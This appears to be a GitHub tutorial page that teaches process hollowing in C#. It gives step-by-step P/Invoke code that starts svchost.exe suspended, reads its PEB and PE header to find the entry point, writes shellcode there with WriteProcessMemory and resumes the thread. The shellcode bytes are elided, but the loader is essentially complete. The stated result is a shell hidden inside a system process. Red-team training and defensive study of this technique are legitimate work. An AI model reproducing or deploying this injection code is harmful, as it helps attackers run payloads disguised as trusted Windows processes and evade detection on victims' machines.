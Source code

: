 ## Begin
The very first step is to create a suspended process. We'll be using the Win32 _CreateProcessW_ API.
We'll first import the API, as follows:
```C#
[DllImport("kernel32.dll", SetLastError = true, CharSet = CharSet.Ansi)]
static extern bool CreateProcess(string lpApplicationName, string lpCommandLine, 
    IntPtr lpProcessAttributes, IntPtr lpThreadAttributes, bool bInheritHandles, 
        uint dwCreationFlags, IntPtr lpEnvironment, string lpCurrentDirectory, 
            [In] ref STARTUPINFO lpStartupInfo, out PROCESS_INFORMATION lpProcessInformation);
```

The API takes 10 parameters:
1. lpApplicationName - Name of application(null)
2. lpCommandLine - Full command line to be executed(svchost.exe)
3. lpProcessAttributes - Specify security descriptor(null for default)
4. lpThreadAttributes - Part of 3 (null for default) 
5. bInheritHandles - Handles of current process(set to false)
6. dwCreationFlags - indicates intention to launch the new process in a suspended state(set to 0x04 - CREATE_SUSPEND)
7. lpEnvironment - Environment variable settings to be used(null for default)
8. lpCurrentDirectory - Current directory for the new application(null for default)
9. lpStartupInfo - Values related to how window of new process be configured
10. lpProcessInformation - identification information about the new process {like PID}

We need to add the structure for the last 2 arguments from P/Invoke as follows:
- For lpStartupInfo:
```C#
[StructLayout(LayoutKind.Sequential, CharSet = CharSet.Ansi)]
struct STARTUPINFO
{
    public Int32 cb;
    public IntPtr lpReserved;
    public IntPtr lpDesktop;
    public IntPtr lpTitle;
    public Int32 dwX;
    public Int32 dwY;
    public Int32 dwXSize;
    public Int32 dwYSize;
    public Int32 dwXCountChars;
    public Int32 dwYCountChars;
    public Int32 dwFillAttribute;
    public Int32 dwFlags;
    public Int16 wShowWindow;
    public Int16 cbReserved2;
    public IntPtr lpReserved2;
    public IntPtr hStdInput;
    public IntPtr hStdOutput;
    public IntPtr hStdError;
}
```

- For lpProcessInformation:
```C#
[StructLayout(LayoutKind.Sequential)]
internal struct PROCESS_INFORMATION
{
    public IntPtr hProcess;
    public IntPtr hThread;
    public int dwProcessId;
    public int dwThreadId;
}
```

We can invoke the call by first instantiating a _STARTUPINFO_ and a _PROCESS_INFORMATION_ object and then supply them to _CreateProcessW_.
```C#
STARTUPINFO si = new STARTUPINFO();
PROCESS_INFORMATION pi = new PROCESS_INFORMATION();

bool res = CreateProcess(null, "C:\\Windows\\System32\\svchost.exe", IntPtr.Zero, 
    IntPtr.Zero, false, 0x4, IntPtr.Zero, null, ref si, out pi);
```

Now we import _ZwQueryInformationProcess_ using P/Invoke:
```c#
[DllImport("ntdll.dll", CallingConvention = CallingConvention.StdCall)]
private static extern int ZwQueryInformationProcess(IntPtr hProcess, 
    int procInformationClass, ref PROCESS_BASIC_INFORMATION procInformation, 
        uint ProcInfoLen, ref uint retlen);
```

The API takes 5 parameters:
1. hProcess - process handle that we can obtain from the _PROCESS_INFORMATION_ structure
2. procInformationClass - Actions to be performed by the API(set to "0" which means _ProcessBasicInformation_)
3. procInformation - must be a _PROCESS_BASIC_INFORMATION_ structure that is populated by the API
4. ProcInfoLen - indicate the size of the input structure
5. retlen - a variable to hold the size of the fetched data

We will also need to create a structure for _ProcessInformation_ using P/Invoke as follows:
```C#
[StructLayout(LayoutKind.Sequential)]
internal struct PROCESS_BASIC_INFORMATION
{
    public IntPtr Reserved1;
    public IntPtr PebAddress;
    public IntPtr Reserved2;
    public IntPtr Reserved3;
    public IntPtr UniquePid;
    public IntPtr MoreReserved;
}
```

We can now call _ZwQueryInformationProcess_ and fetch the address of the PEB from the _PROCESS_BASIC_INFORMATION_ structure:
```C#
PROCESS_BASIC_INFORMATION bi = new PROCESS_BASIC_INFORMATION();
uint tmp = 0;
IntPtr hProcess = pi.hProcess;
ZwQueryInformationProcess(hProcess, 0, ref bi, (uint)(IntPtr.Size * 6), ref tmp);

IntPtr ptrToImageBase = (IntPtr)((Int64)bi.PebAddress + 0x10);
```

NOTE: The _ptrToImageBase_ variable now contains a pointer to the image base of svchost.exe in the suspended process.

We will now import _ReadProcessMemory_ API from P/Invoke as follows:
```C#
[DllImport("kernel32.dll", SetLastError = true)]
static extern bool ReadProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, 
    [Out] byte[] lpBuffer, int dwSize, out IntPtr lpNumberOfBytesRead);
```

The Function takes 5 parameters:
1. hProcess- process handle to read from
2. lpBaseAddress - the address to read from
3. lpBuffer - a buffer to copy the content into
4. nSize - the number of bytes to read
5. lpNumberOfBytesRead - a variable to contain the number of bytes read

 we can call _ReadProcessMemory_ by specifying an 8-byte buffer that is then converted to a 64bit integer through the [_BitConverter.ToInt64_](https://docs.microsoft.com/en-us/dotnet/api/system.bitconverter.toint64?view=netframework-4.8) method and then casted to a pointer using _(IntPtr)_ as follows:
```C#
byte[] addrBuf = new byte[IntPtr.Size];
IntPtr nRead = IntPtr.Zero;
ReadProcessMemory(hProcess, ptrToImageBase, addrBuf, addrBuf.Length, out nRead);

IntPtr svchostBase = (IntPtr)(BitConverter.ToInt64(addrBuf, 0));
```

The following step is to parse the PE header to locate the EntryPoint.
For this, we'll use _ReadProcessMemory_ again with a buffer size of 0x200 bytes as follows:
```C#
byte[] data = new byte[0x200];
ReadProcessMemory(hProcess, svchostBase, data, data.Length, out nRead);
```

Now is the time to implement our theory to find the code entrypoint.
We convert four bytes at offset 0x3C (_e_lfanew_ field) to an unsigned integer.
Next, we convert the four bytes at offset e_lfanew plus 0x28 into an unsigned integer.
We also, add the RVA to the image base to obtain the full memory address of the entry point.
We do this with the following code:
```C#
uint e_lfanew_offset = BitConverter.ToUInt32(data, 0x3C);

uint opthdr = e_lfanew_offset + 0x28;

uint entrypoint_rva = BitConverter.ToUInt32(data, (int)opthdr);

IntPtr addressOfEntryPoint = (IntPtr)(entrypoint_rva + (UInt64)svchostBase);
```

As we now have the EntryPoint, we can generate our shellcode and use _WriteProcessMemory_ to overwrite the existing code.
We Invoke the function and call it as follows:
```C#
[DllImport("kernel32.dll")]
        static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
```
```C#
byte[] buf = new byte[641] {
0xfc,0x48,....,0xff,0xd5 };

WriteProcessMemory(hProcess, addressOfEntryPoint, buf, buf.Length, out nRead);
```

We will now finally start the execution of our shellcode.
We can do this with the _ResumeThread_ Win32 API, as we already have an execution thread.
The API only takes one argument, i.e. the handle of the thread to resume.
We import and call the function as follows:
```C#
[DllImport("kernel32.dll", SetLastError = true)]
private static extern uint ResumeThread(IntPtr hThread);
```
```C#
ResumeThread(pi.hThread);
```

Executing the compiled code gives us a shell in the svchost.exe process.

![](../../../Screenshots/ps-hollow-shell.png)

![](../../../Screenshots/ps-hollow-prf.png)


